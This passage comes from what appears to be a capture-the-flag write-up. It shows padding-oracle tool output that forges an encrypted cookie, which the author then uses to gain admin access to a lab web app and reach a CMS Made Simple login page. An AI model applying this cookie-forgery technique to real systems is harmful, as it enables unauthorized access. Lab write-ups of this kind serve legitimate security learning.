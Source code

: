    [+] Success: (1/256) [Byte 8]
    [+] Success: (36/256) [Byte 7]
    [+] Success: (180/256) [Byte 6]
    [+] Success: (17/256) [Byte 5]
    [+] Success: (146/256) [Byte 4]
    [+] Success: (50/256) [Byte 3]
    [+] Success: (132/256) [Byte 2]
    [+] Success: (135/256) [Byte 1]

    Block 1 Results:
    [+] New Cipher Text (HEX): 0408ad19d62eba93
    [+] Intermediate Bytes (HEX): 717bc86beb4fdefe

    -------------------------------------------------------
    ** Finished ***

    [+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
    -------------------------------------------------------



When I set that to my cookie in Firefox and refresh, there's a new menu
bar:

![](/img/image-20210927195536003.png)

### DB Access

#### Enumeration as Admin

The "Admin Panel" link leads to
`http://10.10.11.119/admin_cms_panel/admin/login.php`, which is a login
page for an instance of [CMS Made
Simple](http://www.cmsmadesimple.org/):

![](/img/image-20210928122307248.png)
